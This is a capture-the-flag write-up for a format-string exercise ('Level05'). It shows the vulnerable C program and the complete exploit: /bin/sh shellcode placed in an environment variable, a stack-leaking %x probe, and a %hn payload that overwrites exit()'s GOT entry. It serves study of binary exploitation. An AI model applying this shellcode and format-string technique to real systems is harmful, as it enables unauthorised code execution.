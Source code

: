# Level05

## Code

```
#include <stdio.h>
#include <stdlib.h>

int     main(void)
{
  char s[100];
  unsigned int i;

  i = 0;
  fgets(s, 100, stdin);
  for ( i = 0; i < strlen(s); ++i )
  {
    if ( s[i] > 64 && s[i] <= 90 )
      s[i] ^= 0x20u;
  }
  printf(s);
  exit(0);
}
```
## Explanation

- We saw a non protected printf so we decided to export a shellcode in the env and to call it thanks to `printf`. \
```
$  export EXPLOIT=`python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'
```

- We need to put the value of the address of our shellcode `0xffffd8c7` stored in the env at the address of the GOT entry of `exit()` to win.

- What happens if you give printf() a string with format specifiers but no arguments ? Well, the
    function will try to get the arguments where they should be in the memory anyway, so this is
    something we can exploit.

- After playing with this idea for a bit, we tried to give the program this input : \
    `aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x`
- We got this output : \
    `aaaa 64 f7fcfac0 f7ec3af9 ffffd6af ffffd6ae 0 ffffffff ffffd734 f7fdb000 61616161 20782520 25207825 78252078`

- Here it's quite easy to notice where our format string's buffer starts, technically we could use as many %X as we want to go back up in the stack's addresses to read whatever we want to.

- `printf()` has a format specifier that allows us to write at a specific address : %n
    %n writes the number of characters written so far at the variable address you give as argument.

- So technically, if we could write `0xffffd8c7` characters and then insert a %n whose argument is the address of exit()'s GOT entry `0x080497e0`, that would be perfect.

- The test we did earlier with AAAA helped us understand the beginning of the buffer corresponded to the 10th "%x" we gave as input, but we still have one problem: 0xffffd8cf, 4294957263 in decimal, is a far too big number to use as is, and even with the "%<paddingN>x%" syntax, we couldn't write the desired value in one shot.

- So we discovered the %hn specifier which allows us to write in in two parts, by blocks of 2 bytes instead of 4. So we had to write 0xd8c7 at the address of `exit()`'s got entry and 0xffff two bytes further.

- Knowing all that, here's our final payload :


## Exploit
```
$  export EXPLOIT=`python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`
$ /tmp/getenv 
0xffffd8c7
$  (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55487x%10$hn%10040x%11$hn"';cat) | ./level05
```